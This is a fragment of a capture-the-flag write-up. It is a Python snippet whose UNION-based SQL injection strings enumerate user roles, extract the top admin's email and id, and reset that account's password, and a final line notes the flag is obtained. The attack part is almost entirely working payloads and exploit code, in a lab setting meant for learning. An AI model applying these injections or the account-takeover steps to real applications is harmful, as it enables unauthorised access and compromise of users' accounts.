 ```py
# print(send_sqli("111111' union select role FROM user --"))
# guest

# print(send_sqli("111111' union select role FROM user WHERE role != 'guest'--"))
# support

# print(send_sqli("111111' union select role FROM user WHERE role != 'guest' AND role != 'support'--"))
# top_super_user

email = send_sqli("a' union select mail from user where role='top_super_user'--")
id = send_sqli("a' union select id from user where role='top_super_user'--")
password = "password"

if change_password(email, id, password) is True:
    print(f"Password for {email} (id={id}) has been changed to '{password}'")
else:
    print("Exploit error")
```

Once the admin's password is changed, we can log into their account and retrieve the flag.  

